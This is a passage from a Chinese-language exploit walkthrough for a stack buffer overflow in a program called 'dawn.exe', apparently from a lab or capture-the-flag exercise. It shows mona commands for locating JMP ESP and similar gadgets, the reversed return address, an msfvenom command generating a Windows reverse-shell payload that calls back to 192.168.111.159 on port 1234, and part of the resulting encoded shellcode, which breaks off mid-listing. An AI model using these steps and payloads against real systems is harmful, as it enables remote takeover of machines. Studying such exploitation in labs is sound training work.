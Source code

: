     但是有其他替换的指令
    
    ```c
    !mona find -s "\xff\xe4" -m "dawn.exe" #jmp esp
    !mona find -s "\x54\xc3" -m "dawn.exe" #PUSH ESP; RET
    !mona find -s "\xff\xd4" -m "dawn.exe" #CALL ESP
    ```
    
    ![image.png](image%20119.png)
    
    获得地址`34581777` ，因为小端显示的原因要逆转，那么就是`\x77\x17\x58\x34`
    

## 插入shellcode

1. 使用`msfvenom`生成`shellcode`
    
    ```c
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.111.159 LPORT=1234 -b "\x00" -f python
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1745 bytes
    buf =  b""
    buf += b"\xbb\x49\x78\x0e\x0a\xdb\xda\xd9\x74\x24\xf4\x5e"
    buf += b"\x33\xc9\xb1\x52\x31\x5e\x12\x83\xee\xfc\x03\x17"
    buf += b"\x76\xec\xff\x5b\x6e\x72\xff\xa3\x6f\x13\x89\x46"
    buf += b"\x5e\x13\xed\x03\xf1\xa3\x65\x41\xfe\x48\x2b\x71"
    buf += b"\x75\x3c\xe4\x76\x3e\x8b\xd2\xb9\xbf\xa0\x27\xd8"
    buf += b"\x43\xbb\x7b\x3a\x7d\x74\x8e\x3b\xba\x69\x63\x69"
    buf += b"\x13\xe5\xd6\x9d\x10\xb3\xea\x16\x6a\x55\x6b\xcb"
    buf += b"\x3b\x54\x5a\x5a\x37\x0f\x7c\x5d\x94\x3b\x35\x45"
    buf += b"\xf9\x06\x8f\xfe\xc9\xfd\x0e\xd6\x03\xfd\xbd\x17"
    buf += b"\xac\x0c\xbf\x50\x0b\xef\xca\xa8\x6f\x92\xcc\x6f"
    buf += b"\x0d\x48\x58\x6b\xb5\x1b\xfa\x57\x47\xcf\x9d\x1c"
    buf += b"\x4b\xa4\xea\x7a\x48\x3b\x3e\xf1\x74\xb0\xc1\xd5"
    buf += b"\xfc\x82\xe5\xf1\xa5\x51\x87\xa0\x03\x37\xb8\xb2"
    buf += b"\xeb\xe8\x1c\xb9\x06\xfc\x2c\xe0\x4e\x31\x1d\x1a"
    buf += b"\x8f\x5d\x16\x69\xbd\xc2\x8c\xe5\x8d\x8b\x0a\xf2"
    buf += b"\xf2\xa1\xeb\x6c\x0d\x4a\x0c\xa5\xca\x1e\x5c\xdd"
    buf += b"\xfb\x1e\x37\x1d\x03\xcb\x98\x4d\xab\xa4\x58\x3d"
    buf += b"\x0b\x15\x31\x57\x84\x4a\x21\x58\x4e\xe3\xc8\xa3"